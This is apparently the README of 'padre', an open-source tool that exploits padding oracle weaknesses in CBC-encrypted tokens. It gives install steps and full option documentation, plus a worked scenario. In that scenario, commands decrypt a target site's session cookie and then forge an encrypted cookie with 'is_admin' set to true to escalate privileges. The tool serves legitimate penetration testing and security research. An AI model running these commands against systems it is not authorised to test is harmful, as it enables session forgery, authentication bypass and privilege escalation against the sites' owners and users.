 ![](https://img.shields.io/github/go-mod/go-version/glebarez/padre) ![](https://img.shields.io/github/workflow/status/glebarez/padre/Build)

# padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo

![demo](demo.gif )

## Installation/Update
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Full usage options
```
Usage: padre [OPTIONS] [INPUT]

INPUT: 
	In decrypt mode: encrypted data
	In encrypt mode: the plaintext to be encrypted
	If not passed, will read from STDIN

	NOTE: binary data is always encoded in HTTP. Tweak encoding rules if needed (see options: -e, -r)

OPTIONS:

-u *required*
	target URL, use $ character to define token placeholder (if present in URL)

-enc
	Encrypt mode

-err
	Regex pattern, HTTP response bodies will be matched against this to detect padding oracle. Omit to perform automatic fingerprinting

-e
	Encoding to apply to binary data. Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r
	Additional replacements to apply after encoding binary data. Use odd-length strings, consiting of pairs of characters <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~', then use -r "/!+-=~"

-cookie
	Cookie value to be set in HTTP requests. Use $ character to mark token placeholder.

-post
	String data to perform POST requests. Use $ character to mark token placeholder. 

-ct
	Content-Type for POST requests. If not specified, Content-Type will be determined automatically.
	
-b
	Block length used in cipher (use 16 for AES). Omit to perform automatic detection. Supported values:
		8
		16 *default*
		32

-p
	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy
	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
```

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster